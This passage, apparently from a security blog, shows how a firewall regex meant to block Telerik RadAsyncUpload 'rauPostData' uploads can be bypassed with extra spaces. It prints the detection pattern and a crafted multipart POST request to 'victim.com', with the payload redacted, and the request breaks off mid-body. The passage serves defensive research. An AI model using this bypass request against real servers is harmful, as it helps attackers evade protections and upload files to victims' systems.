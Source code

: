 In order to be sure to block also the requests that do not contain any parameter within the query string, regular expressions were used to check the content of the request body.

In particular, the focus was placed on blocking all the requests with the "_rauPostData_" parameter, containing file upload encrypted metadata, within the URL query string or the request body.

The check within the body of the request was performed using the following regular expression, after normalizing and transforming to lower case its content:

.\*name=.?.?raupostdata.\*

This rule blocked a request if performed using the regular syntax to insert a "_multipart/form-data_" parameter.

The image below shows how a regular parameter matches the regular expression.

[![](https://1.bp.blogspot.com/-gSJXB-0XvRs/X6fbDtA_XRI/AAAAAAAAAAg/KNihf91Jx6gJK0S0ABLFQZLfVmlm0doqgCLcBGAsYHQ/w577-h179/regexmatch.png)](https://1.bp.blogspot.com/-gSJXB-0XvRs/X6fbDtA_XRI/AAAAAAAAAAg/KNihf91Jx6gJK0S0ABLFQZLfVmlm0doqgCLcBGAsYHQ/s1113/regexmatch.png)

  

However, the regular expression check can be bypassed. The weakness of this check relies on the central portion of the expression that checks for a maximum of two characters _(".?.?")_ between "_name="_ and "_raupostdata_". If three spaces are added between the strings and the quotes are removed the expression will no longer match as shown below.

[![](https://1.bp.blogspot.com/-vb5LVz2YYwQ/X6fbN02N_AI/AAAAAAAAAAk/VyQsmqa-l_0arf4ohI5LQviVraQ4Z1lowCLcBGAsYHQ/w573-h161/regexfail.png)](https://1.bp.blogspot.com/-vb5LVz2YYwQ/X6fbN02N_AI/AAAAAAAAAAk/VyQsmqa-l_0arf4ohI5LQviVraQ4Z1lowCLcBGAsYHQ/s1574/regexfail.png)

  

With this modification the parameter was still considered valid by the web server allowing once again the file upload.

Request:

POST /Weblink/Telerik.Web.UI.WebResource.axd HTTP/1.1  
Host: victim.com  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86\_st64; rv:75.0) Gecko/20100101 Firefox/75.0  
Accept: \*/\*  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Connection: close  
Content-Type: multipart/form-data; boundary=---------------------------62616f37756f2f  
Connection: close  
Content-Length: 2473  
​  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name=   rauPostData  
​  
ATTu5i4R+ViNFYO\[Encrypted rauPostData Payload in base64\]9TB0pfAmUFAlzLUg==  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="file"; filename="blob"  
Content-Type: application/octet-stream  
​  
Test\_Test  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="fileName"  
​  
RAU\_crypto.bypass  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="type"  
​  
rau  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="contentType"  
​  
text/html  